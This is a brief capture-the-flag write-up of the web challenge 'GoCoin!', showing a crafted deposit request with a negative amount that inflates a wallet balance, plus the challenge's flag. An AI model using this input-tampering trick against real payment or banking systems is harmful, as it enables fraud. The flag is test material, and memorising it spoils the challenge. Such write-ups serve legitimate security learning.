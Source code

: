 # GoCoin!
Web - 50 points

## Challenge 

> I thought blockchain was cool, so I made my own coin.

> http://ctf.pwn.sg:8182

> Creator - quanyang (@quanyang)

## Solution

We see this on the website

	You have 1 GoCoins! in your wallet and 0 in your bank!
	Deposit 1 GoCoins into your bank here!
	Withdraw 1 GoCoins from your bank here!
	Buy a flag for 1.337 GoCoins! here.

Deposit a negative amount and we can buy the flag.

> http://ctf.pwn.sg:8182/deposit?amount=-100

	You deposited -100 GoCoins! into your bank!
	You have 101 GoCoins! in your wallet and -100 in your bank!
	Deposit 1 GoCoins into your bank here!
	Withdraw 1 GoCoins from your bank here!
	Buy a flag for 1.337 GoCoins! here.

## Flag

	You bought a flag!

	CrossCTF{G0C0in_Is_Th3_Nex7_Bi5_Th@ng!}